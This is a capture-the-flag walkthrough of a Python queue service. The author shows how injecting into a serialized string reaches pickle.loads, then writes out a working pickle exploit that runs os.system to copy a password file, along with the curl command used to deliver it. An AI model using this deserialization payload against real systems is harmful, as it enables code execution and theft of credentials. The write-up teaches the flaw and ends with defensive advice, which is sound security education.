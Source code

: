 ## Level 5

This may be the most realistic of all the challenges:
the code is not trivial,
it is not badly written,
there are no obvious mistakes.
But there is one grave mistake in it,
which is not easy to notice,
and not easy to exploit.
It's a kind of vulnerability that can happen to anyone.

What can we see easily?
The description tells us that `level05` is running an uppercasing service.
We can make calls to it using `curl`,
for example:
```
level04@box:~$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we see two modes of invocations of the program,
using the `worker` or `server` as the command line argument.

As usual,
let's start by playing with the input,
and try to misuse the service with invalid values:
```
level04@box:~$ curl localhost:8005 -d $(printf '\x11\x12')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 100')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 1000')
...
level04@box:~$ curl localhost:8005 -d $(python -c 'print "a" * 10000')
...
```

Nothing really interesting seems to happen.
Let's see how the input is really handled by digging in the code.
Let's continue investigating the input,
by tracking down how it is processed.

As we are sending the input using HTTP,
let's look for the HTTP service implementation in the code:
it's in the `QueueHttpServer` class,
which has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs,
so there is nothing we can do there.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
That in turn passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that the value of `type` can be either `JOB` or `RESULT`.
The value of `data` is whatever we send with `curl`.
And the value of job is a `Job` object,
dumped using the `pickle` library,
which seems to convert objects to strings.
We can guess that the object is probably restored later in the program from string to an object.

Is this safe?
Not quite,
as we can control the content of `data`.
What will happen if we send `x; job: hello` as the input?
The serialized string will look something like this:
```
type: JOB; data: x; job: hello; job: ???
```
We don't know yet how this serialized string is used later in the program,
but this kind of input definitely looks like a special corner case that might not be easy to handle well.
Let's see what actually happens if we call the service with such method:
```
level04@box:~$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
Yes, that doesn't look too good.
It looks like we have successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in the `QueueUtils` class:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Well, well, well.
If you are good at regular expressions the problem may be already obvious,
or we could do a quick test using the Python interpreter to see how our input would impact the processing logic here:
```
level04@box:~$ python
Python 2.7.3 (default, Apr 13 2012, 00:19:31) 
[GCC 4.6.1] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import re
>>> serialized = 'type: JOB; data: x; job: hello; job: ???'
>>> parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
>>> match = parser.match(serialized)
>>> match.group(2)
'x'
>>> match.group(3)
'hello; job: ???'
```
So, what we put in the input string after a semicolon,
will become the beginning of the parameter used in `pickle.loads`.
What can we do with this?
What kind of prefix string can we construct that will do something interesting when you call `pickle.loads` on it?

I'm not really familiar with `pickle`,
but we've seen earlier that `pickle.dumps` creates a string from an object,
and `pickle.loads` seems to do the reverse.
Let's play with this a little in a Python interpreter:
```
>>> import pickle
>>> pickle.dumps('hello')
"S'hello'\np0\n."
>>> pickle.dumps([1,2,3])
'(lp0\nI1\naI2\naI3\na.'
>>> pickle.dumps(pickle.dumps)
'cpickle\ndumps\np0\n.'
>>> pickle.loads(pickle.dumps(pickle.dumps))
<function dumps at 0xb7470a74>
```
As expected, `pickle` can serialize values, objects,
functions to string and convert them back.

To exploit this,
we need to read up a bit about pickle in the documentation:
http://docs.python.org/library/pickle.html
Notice the warning right on the front page:

> Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

Looks like we are on the right track:
we have already found a way to inject data for "unpickling",
now we just need to find out how can we create a pickle that will reveal the content of the password file.
There is a very interesting item in the documentation:
the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about — such as an extension type — it looks in two places for a hint of how to pickle it. One alternative is for the object to implement a __reduce__() method. If provided, at pickling time __reduce__() will be called with no arguments, and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned, it must be between two and five elements long. (...) The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object. The next element of the tuple will provide arguments for this callable, and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this we must implement the `__reduce__` method in a certain way:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

So, what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` and the argument some appropriate shell command,
like this:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output:
```
level04@box:~$ python exploit.py > pickle.txt
level04@box:~$ cat pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
level04@box:~$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
level04@box:~$ cat /tmp/p
diebasuw
```

Bingo!

What can we learn from all this?

- Read the documentation carefully:
  it warned about the dangers of unpickling untrusted text loud and clear.
  In fact, is it really necessary to use pickles?
  Use JSON serialization instead, it's safer.

- Always validate user input carefully.
  Trace in your code all the places where the user input might pass through,
  and make sure your input validation is strict enough.

